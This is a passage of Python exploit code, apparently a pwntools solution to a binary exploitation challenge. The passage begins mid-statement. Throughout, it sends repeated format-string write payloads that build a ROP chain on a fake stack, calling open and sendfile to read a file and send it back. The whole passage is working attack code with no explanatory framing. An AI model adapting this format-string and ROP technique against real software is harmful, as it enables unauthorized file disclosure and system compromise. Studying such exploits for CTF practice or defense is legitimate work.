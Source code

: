 ```python
        fake_stack+0x18: 0x0,
        fake_stack+0x20: pop_rdx_rcx_rbx
    })
)
p.send(payload)

payload = construct_payload(
    fmtstr_payload(16, {
        fake_stack+0x28: 0x0, # rdx
        fake_stack+0x30: 0x0, # rcx
    })
)
p.send(payload)

payload = construct_payload(
    fmtstr_payload(16, {
        fake_stack+0x38: 0x0, # rbx
        fake_stack+0x40: OPEN
    })
)
p.send(payload)

payload = construct_payload(
    fmtstr_payload(16, {
        fake_stack+0x48: pop_rdi,
        fake_stack+0x50: 0x1,
    })
)
p.send(payload)

payload = construct_payload(
    fmtstr_payload(16, {
        fake_stack+0x58: pop_rsi,
        fake_stack+0x60: 0x3,
    })
)
p.send(payload)

payload = construct_payload(
    fmtstr_payload(16, {
        fake_stack+0x68: pop_rdx_rcx_rbx,
        fake_stack+0x70: 0x0, # rdx
    })
)
p.send(payload)

payload = construct_payload(
    fmtstr_payload(16, {
        fake_stack+0x78: 0x100, # rcx
        fake_stack+0x80: 0x0, # rbx
    })
)
p.send(payload)

payload = construct_payload(
    fmtstr_payload(16, {
        fake_stack+0x88: SENDFILE
    })
)
p.send(payload)
```
